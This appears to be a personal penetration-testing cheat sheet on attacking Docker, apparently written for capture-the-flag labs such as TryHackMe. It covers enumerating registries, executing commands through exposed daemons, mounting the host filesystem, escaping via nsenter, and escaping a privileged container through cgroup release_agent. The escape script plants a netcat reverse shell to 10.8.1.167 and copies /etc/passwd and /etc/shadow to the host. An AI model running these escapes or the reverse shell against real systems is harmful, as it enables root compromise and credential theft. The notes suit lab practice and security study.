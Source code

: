 ##### Docker registries
A docker registry is a storage and distribution system for named Docker images. 
The registry is organized into Docker repositories, with information about the current images.
The default port is 5000.

To enumerate Docker registries, use [[docker-grabber]]
To query the Docker images:
```
curl http://IP:PORT/v2/_catalog                        // Get all active Docker images.
curl http://IP:PORT/v2/REPOSITORY/NAME/tags/list       // Get tags of an image.
curl http://IP:PORT/v2/REPOSITORY/NAME/manifests/TAG   // Get info of a tag (usually contains command history)
```

##### Reverse engineering
If you're able to query the data inside of the docker registry (see [[#Docker registries]]), `docker pull` the registry:
```c++
nano /etc/docker/daemon.json
add IP:PORT to the list
systemctl stop docker*
systemctl start docker
systemctl start docker.socket

docker info   // Check if the IP has been added to the insecure registries.
```
try dumping the docker images with [[Dive]]

##### Exposed docker daemon
If you find an exposed docker daemon (Nmap docker, with a lot of info), you can communicate with the image inside.
To confirm access, use `curl http://IP:PORT/version`
To execute code:
```
docker -H tcp://IP:PORT ps                        // List running images
docker -H tcp://IP:PORT exec CONTAINER_ID COMMAND // Execute a command in a container  
use rootplease (haven't figured out yet)
```

##### Exposed internal docker daemon
Assuming you've got a foothold on the target system, check for the "Docker" group using `groups`
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh         // Mount the host system to the internal image
// IMPORTANT NOTE: This won't work on THM servers, or other places without access to the internet.
// To bypass this, replace the "alpine" with the ID of the box, like this:
docker images                                               // Copy the ID of any of the available images.
docker run -v /:/mnt --rm -it ANY_IMAGE_ID chroot /mnt sh   // Mount the host system to the internal image
```

##### Shared namespaces
If you see a lot of processes when running `ps aux`  generally 20+, try this:
```
nsenter --target 1 --mount sh
```
`--target 1`  -- The targetted process (and the target namespace)
`--mount`  -- the mount namespace of the target process
`sh`  -- Execute `sh` in the namespace (kernel)

##### Capabilities
Requirement: a Docker image with `privileged` mode enabled.
The `priveleged` mode means that all capabilities have been granted to the Docker image, allowing it to bypass the Docker Engine and reach the system.
To check if the image is Priveleged, use
```
capsh --print                    // If this gives lots of output, privileged mode is likely enabled.
capsh --print | grep sys_admin   // If this returns output, it is exploitable.
```

Exploitation:
```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.1.167 5555 >/tmp/f" >> /cmd
echo "cat /etc/passwd > $host_path/output" >> /cmd
echo "cat /etc/shadow > $host_path/output"
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

##### Writable docker socket
To get root in the docker, upload a docker binary.
Secondly, run 
```
./docker run --entrypoint /bin/bash -it --rm HOST_IMAGE_NAME
```

##### Scanning the host
The host of the docker's IP is usually 172.17.0.1
To make sure, use:
```
/sbin/ip route|awk '/default/ { print $3 }'
```
if you scan it using `nmap`, you might find something


### miscellanious
get full tty: `script /dev/null -c bash`